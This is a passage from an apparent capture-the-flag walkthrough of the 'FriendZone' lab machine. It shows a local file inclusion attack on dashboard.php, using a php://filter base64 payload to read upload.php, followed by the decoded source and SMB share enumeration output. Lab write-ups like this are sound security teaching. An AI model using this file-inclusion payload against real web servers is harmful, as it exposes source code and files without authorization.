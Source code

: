 We visit the /images dir:

![image.png]({{ site.baseurl }}/assets/friendzone/image%2010.png)

We convert the time to a unix timestamp and visit the dashboard again:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=1441034040
```

![image.png]({{ site.baseurl }}/assets/friendzone/image%2011.png)

Let’s view the page source for upload.php:

```bash
#the upload funciton page
https://uploads.friendzone.red/upload.php
```

To read; we guess the basic VHOST file dir is the subdomain name is the dir that includes all its files:

```bash
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=../uploads/upload
```

![image.png]({{ site.baseurl }}/assets/friendzone/image%2012.png)

Let’s decode:

```bash
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>
```

It doesn’t look like it’s actually uploading anything.

Thinking back when we were enumerating the smb shares, we got:

```bash
SMB         10.10.10.123    445    FRIENDZONE       [*] Enumerated shares
SMB         10.10.10.123    445    FRIENDZONE       Share           Permissions     Remark
SMB         10.10.10.123    445    FRIENDZONE       -----           -----------     ------
SMB         10.10.10.123    445    FRIENDZONE       print$                          Printer Drivers
SMB         10.10.10.123    445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.10.10.123    445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.10.10.123    445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))
```
